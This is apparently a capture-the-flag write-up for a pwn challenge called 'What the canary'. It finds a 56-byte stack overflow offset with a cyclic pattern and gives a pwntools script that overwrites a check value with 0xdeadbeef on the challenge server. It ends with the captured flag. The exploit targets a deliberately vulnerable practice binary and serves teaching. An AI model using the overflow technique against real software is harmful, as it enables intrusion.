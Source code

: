 +++
title = 'What the canary'
date = '2024-09-05'
authors = {"Achintya J"}
+++

# What the canary

This provides us with a binary and the source code for a vulnerable program (hence the name vuln, duh). Now we'll open the file using `gdb`, note that I am using `gdb-peda`and you might be using something else, so adapt accordingly

		gdb -q ./vuln
		checksec

running `checksec` we can see that even though the challenge talks about canaries, there aren't any canaries! If we run the program (just type `r`) we can see that it expects us to enter something.

Entering a random string we get this sort of a message,

		code == 0x0
		code != 0xdeadbeef :(
		Well, that was unexpected...

Well that means, we want the code to be `0xdeadbeef`. The first thing we'll need to do is find out what offset overwrites this value. So, head over to [this](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) link to generate a random string.

Entering the 100 byte string: "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A", we get this

		code == 0x4130634139624138
		code != 0xdeadbeef :(
		Well, that was unexpected...

So, we've written something... what is that? If we convert that from hex, we can see that its "A0cA9bA8". This string is not present anywhere in our input! However, its reverse "8Ab9Ac0A" is at the `56th` offset. 

What this means is, if we enter 56 bytes, then the next 8 bytes will overwrite this address. This simple script can therefore be used to achieve the flag.

		from pwn import *
		context.binary = binary = ELF("./vuln")
		context.log_level = "critical"
		payload = flat([
			b"A"*56,
			p32(0xdeadbeef) # simply enter the exact address, it will handle the endianess in its default values
			])
		p = remote('10.21.232.38', 7001)
		p.sendline(payload)
		p.interactive()


flag: `iitmCTF{N0-C@n@r!35-r3Qu!r3|)}`